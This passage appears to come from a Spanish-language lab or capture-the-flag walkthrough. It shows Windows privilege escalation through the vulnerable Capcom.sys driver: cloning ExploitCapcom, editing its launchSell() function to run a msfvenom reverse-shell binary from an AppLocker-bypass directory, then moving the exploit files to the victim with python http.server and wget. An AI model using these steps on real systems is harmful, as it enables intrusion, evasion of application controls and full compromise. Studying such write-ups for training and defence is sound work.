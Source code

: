 ````bash

#### Creamos el ExploitCapcom.exe {-}

En este punto nos tenemos que descargar el fichero **ExploitCapcom**. Este fichero se tiene que compilar desde Visual Studio.

1. descargamos el proyecto

    ```bash
    git clone https://github.com/tandasat/ExploitCapcom
    ```

1. desde Visual Studio le damos a File -> Open -> Project/Solution
1. buscamos el .sln y le damos a open

Si abrimos el fichero ExploitCapcom.cpp, la idea aqui seria de modificar el script para que ejecute un binario malicioso creado con *msfvenom*. 
Para esto necesitamos modificar la funccion **launchSell()** del ExploitCapcom.cpp

En la web de [AppLockerByPassList](https://github.com/api0cradle/UltimateAppLockerByPassList), buscamos una routa windows interesante donde se puede trabajar
sin problemas, en este caso seria la 
```bash
 C:\Windows\System32\spool\drivers\color 
```


1. Modificamos el script

    ```cpp
    static bool launchSell()
    {
        TCHAR CommandLine[] = TEXT("C:\\Windows\\System32\\spool\\drivers\\color\\reverse.exe");
    }
    ```

1. Buildeamos el proyecto dandole al menu Build -> Rebuild solution
1. copiamos el fichero ExploitCapcom.exe en la carpeta compiledbinaries


#### Passamos los ficheros a la maquina victima {-}

En la carpeta 
```bash
 compiledbinaries 
```
 tenemos nuestros 3 ficheros necesarios para el exploit.
- Capcom.sys
- ExploitCapcom.exe
- LoadDriver.exe

En esta carpeta, montamos un servidor web con python

```bash
python3 -m http.server
```

Desde la maquina de atacante, descargamos estos ficheros

```bash
wget http://192.168.1.14:8000/Capcom.sys
wget http://192.168.1.14:8000/ExploitCapcom.exe
wget http://192.168.1.14:8000/LoadDriver.exe
```
````